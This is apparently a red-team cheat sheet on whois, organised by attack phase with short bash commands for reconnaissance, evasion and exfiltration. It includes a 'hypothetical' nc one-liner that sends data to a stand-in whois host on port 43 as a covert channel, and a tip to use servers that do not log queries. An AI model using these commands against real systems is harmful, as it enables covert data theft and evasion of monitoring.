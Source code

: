 ## External Reconnaissance

### Domain Ownership Lookup
- **Tool:** [[Whois]]
    ```bash
    whois example.com
    ```
- **Description:** Identify the owner of a domain, including contact information, to understand the administrative structure of a target.

### IP Address Attribution
- **Tool:** [[Whois]]
    ```bash
    whois 192.0.2.1
    ```
- **Description:** Determine the organization responsible for a particular IP address, which can help in identifying the target's network infrastructure.

## Internal Reconnaissance

### Mapping Internal Domains
- **Tool:** [[Whois]]
    ```bash
    whois internal.example.com
    ```
- **Description:** If internal domains are publicly registered, Whois can be used to gather information about the internal network structure and key contacts.

## Defense Evasion

### Abusing Open Whois Servers
- **Tool:** [[Whois]]
    ```bash
    whois -h <open_whois_server> example.com
    ```
- **Description:** Use open Whois servers that do not log queries to evade detection while gathering information.

## Data Exfiltration

### WHOIS as a Covert Channel
- **Tool:** [[Custom Scripts]]
	```bash
	echo "data_to_exfiltrate" | nc whois.example.com 43
	```
- **Description:** (Hypothetical) Leverage WHOIS queries as a method to exfiltrate small amounts of data, using the WHOIS server as a relay.
